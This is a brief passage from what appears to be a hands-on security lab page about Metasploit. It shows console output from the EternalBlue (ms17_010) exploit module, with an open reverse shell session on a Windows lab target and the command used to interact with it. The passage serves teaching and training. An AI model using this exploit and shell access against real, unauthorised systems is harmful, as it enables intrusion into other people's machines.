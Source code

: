 You can interact with any existing session using the `sessions -i` command followed by the session ID.

Interacting with sessions

`msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions`

`Active sessions`

`===============`

`Id Name Type Information Connection`

`-- ---- ---- ----------- ----------`

`1 shell x64/windows Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation... 10.10.186.44:4444 -> 10.10.12.229:49366 (10.10.12.229)`

`msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1`

`[*] Starting interaction with 1...`

`C:\Windows\system32>`

Deploy the target machine and answer the questions below: